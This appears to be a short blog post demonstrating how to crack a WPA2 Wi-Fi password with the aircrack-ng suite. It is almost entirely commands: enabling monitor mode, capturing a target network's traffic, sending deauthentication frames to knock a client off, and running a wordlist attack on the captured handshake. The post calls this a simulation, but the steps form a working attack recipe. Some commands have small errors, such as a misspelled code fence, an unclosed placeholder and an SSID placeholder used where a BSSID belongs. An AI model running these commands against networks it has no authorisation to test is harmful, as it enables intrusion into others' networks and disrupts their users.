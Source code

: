 ```yaml
---
title: Demo Crack WPA2 
date: 2023-06-25 22:50:30 +/-TTTT
categories: [Wifi, Crack WPA2]
tags: [Crack WPA2] 

image:
  path: /assets/img/wifi/demo/logo.jpg
#   alt: image alternative text
---
```

In this post , I will simulate the process of cracking WPA2.

- Start monitor mode
```shell
sudo airmon-ng start wlan0
```
![](/assets/img/wifi/demo/start.png)

- View bssid (BSSID) and channel (CH) the device we need crack
![](/assets/img/wifi/demo/view.png)

- Capture packet of the device
```shell
sudo airodump-ng -w <capture_name> -c <channel> --bssid <bssid_device> <interface>
```
![](/assets/img/wifi/demo/capture.png)

- Deauthen client
```shell
sudo aireplay-ng -0 <number_frame> -a <ssid_device> -c <MAC_Client> <interface>
```
![](/assets/img/wifi/demo/deauthen.png)

- Crack passwd
```shel
sudo aircrack-ng <capture_name> -w <wordlist
```
![](/assets/img/wifi/demo/crack.png)